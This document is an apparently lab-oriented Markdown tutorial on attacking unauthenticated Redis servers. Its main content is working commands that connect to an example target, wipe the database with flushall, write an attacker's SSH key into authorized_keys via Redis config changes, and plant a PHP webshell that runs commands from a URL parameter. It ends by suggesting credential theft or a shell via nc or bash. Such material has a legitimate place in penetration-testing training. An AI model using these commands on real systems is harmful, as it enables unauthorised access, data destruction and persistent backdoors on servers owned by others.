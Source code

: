 # Attacking

## What is Redis
Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. It supports data structures such as strings, hashes, lists, sets, sorted sets with range queries.

## Enumerating Redis
In a standard Redis configuration, Redis is located by default on port 6379. You can connect to Redis from the command line using Telnet like so:

	telnet 10.10.206.170 6379

Once you're in a telnet session, you can check to see if the instance is using AUTH to set a password, or if the command access is unprotected. A good way to do this is simply by echoing a message, like:

	echo "Hey no AUTH required!"

You should have the message return along with a $xyz value.

## Writing SSH Keys
If this is the case, we can drop SSH keys onto Redis to get a shell. To do this, first generate an SSH key and save it to a directory of your choosing:

	ssh-keygen -t rsa -C "crack@redis.io"

Now we've got a key. The goal is to put it into the Redis server memory, and later to transfer it into a file, in a way that the resulting authorized_keys file is still a valid one. Using the RDB format to do this has the problem that the output will be binary and may in theory also compress strings. 

To start let’s pad the public SSH key we generated with newlines before and after the content:

	(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt

Now foo.txt is just our public key but with newlines. We can write this string inside the memory of Redis using redis-cli. First, we remove any current data in the memory:

	redis-cli -h 10.10.206.170 flushall

Then, we write our file to the memory.

	cat foo.txt | redis-cli -h 10.10.206.170 -x set crackit

Then, we can dump the memory content to a file using:

	redis-cli -h 10.10.206.170
	config set dir /Users/antirez/.ssh/
	config get dir
	config set dbfilename "authorized_keys"
	save

Then we should be able to SSH into the machine using:

	ssh -i id_rsa antirez@10.10.206.170

## PHP Webshell
To do this you must know the path of the Website folder. Check the web server using manual enumeration or a tool like "whatweb" to establish the probable web server. For example, if it's apache- we can assume the path is /var/www/html.

Using this assumption, we can then set the directory and write to a file.  To test if it works, we can connect over telnet, as previously shown. Then, using the commands:

	config set dir /var/www/html
	config set dbfilename configinfo.php
	set test "<?php phpinfo(); ?>"
	save

We can check to see if we're able to write a php info file, to check this- go to the webserver and check "/configinfo.php". If we're met with a PHPInfo page, then we know we're able to write files.

We can then add in a php get variable web shell:

	config set dir /var/www/html
	config set dbfilename shell.php
	set test "<?php system($_GET['cmd']); ?>"
	save

Using this, we can further enumerate and maybe get credentials or a shell using nc or bash. 

